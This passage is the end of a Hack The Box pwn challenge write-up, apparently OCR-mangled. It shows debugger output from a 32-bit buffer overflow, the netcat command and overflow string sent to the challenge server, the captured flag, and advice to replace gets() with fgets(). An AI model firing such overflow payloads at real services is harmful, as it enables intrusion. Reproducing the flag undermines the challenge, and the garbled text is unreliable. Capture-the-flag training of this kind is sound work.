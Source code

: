   0x804924f  flag 109     cmp    dword ptr  ebp   0xc   0xc0ded00d                    
  0x8049256  flag 116     jne    flag 138  flag 138                                   
                                           
  0x8049258  flag 118     sub    esp  0xc                                              
  0x804925b  flag 121     lea    eax   ebp   0x4c                                     
  0x804925e  flag 124     push   eax       0x804925f  flag 125     call   printf plt  printf plt                               
                                           
  0x8049264  flag 130     add    esp  0x10                                            
  0x8049267  flag 133     jmp    flag 139  flag 139                                   
                                           
  0x8049269  flag 135     nop                                                  STACK                                              
00 0000  esp 0xffffcfc4     0x41414141   AAAA                                            
                                   BACKTRACE                                            
  f 0 0x8049246 flag 100                    
  f 1 0x42424242                            
  f 2 0xdeadbeef                            
  f 3 0xc0ded00d                            
  f 4    0x300                              
                                                                                

pwndbg  x 4x  ebp                          

0xffffd01c      0x41414141      0x42424242      0xdeadbeef      0xc0ded00d
   endhighlight   

Consequently  the if statement discussed earlier in the  Ghidra   h ihree4tnkztp  section will run true  After piping the malicious string into netcat  the flag txt file located within the server is printed out 

   highlight bash   
       0xd4y Writeup     business hackthebox challenges pwn easy you know   
      nc 159 65 54 50 31449   eip flag  
You know who are 0xDiablos  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB   
HTB 0ur Buff3r 1s not healthy    0xd4y Writeup     business hackthebox challenges pwn easy you know   
      
   endhighlight   

Conclusion
          

     

The binary in question was vulnerable to a buffer overflow attack due to the lack of boundary checks performed on user input  The deprecated gets   function was used within the binary despite the security warnings that are associated with it  As a result  memory could be overwritten resulting in behavior that the binary was not written to perform  The following remediations should be strongly considered 

    Never use the deprecated gets   function

    Usage of this function creates the possibility for security risks that could allow malicious actors to run arbitrary code

    Use the secure fgets   function

    This function reads user input until a newline character is found or until the buffer gets filled

The aforementioned remediations should be observed as soon as possible  Until this binary is patched  the service running on port 31449 should be disabled 
